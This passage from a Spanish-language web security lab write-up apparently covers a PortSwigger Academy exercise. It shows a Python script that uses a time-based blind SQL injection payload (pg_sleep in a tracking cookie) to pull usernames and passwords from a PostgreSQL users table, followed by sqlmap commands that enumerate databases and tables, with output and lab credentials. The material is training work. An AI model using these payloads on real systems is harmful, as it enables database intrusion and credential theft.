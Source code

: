 ```
                    'TrackingId': "C5PhDxyLUgYK5wqP'||case when (substr((select string_agg(username||':'||password,', ') from public.users),%d,1)='%s') then pg_sleep(2) else pg_sleep(0) end-- - " % (position, character),
                    'session': "BMvtH2Wf9tGi7WdeVufBPzLwygoHxxPD"
                }

                p1.status(cookies['TrackingId'][:150])

                time_start = time.time()

                r = requests.get(url, cookies=cookies)

                time_end = time.time()

                if time_end - time_start > 2:
                    output += character
                    f.write(character)
                    f.flush()
                    p2.status(output)
                    break

if __name__ == '__main__':
    makeRequest()
```

`Obtenemos` el `contenido`

```
# python sqli_time_based.py
[▗] Fuerza bruta: C5PhDxyLUgYK5wqP'||case when (substr((select string_agg(username||':'||password,', ') from public.users),92,1)='r') then pg_sleep(2) else pg_sleep(0) 
[◐] Output: administrator:mefrzkiwwyr2z3lo5g4h,+wiener:d8w4x8fizkczx3gkshpz,+carlos:kheuii6fcx7wucr3v3qr
```

También podemos `conseguir` estos `datos` usando `sqlmap`, lo primero es `listar` las `bases` de `datos`

```
# sqlmap -u https://0a8c0022048b993981c20d0000b3004b.web-security-academy.net/ --risk=3 --level=5 --random-agent --dbs --batch --cookie="TrackingId=cbe7PxDUL4ndHDEm*; session=tcqLKIJ7VfzFA4XY90eUV0wgtK1d8NrT" --threads 2
available databases [1]:
[*] public
```

`Listamos` las `tablas` de la `base de datos public`

```
# sqlmap -u https://0a8c0022048b993981c20d0000b3004b.web-security-academy.net/ --risk=3 --level=5 --random-agent --batch --cookie="TrackingId=cbe7PxDUL4ndHDEm*; session=tcqLKIJ7VfzFA4XY90eUV0wgtK1d8NrT" --threads 2 -D public --tables
Database: public
[2 tables]
+----------+
| tracking |
| users    |
+----------+
```
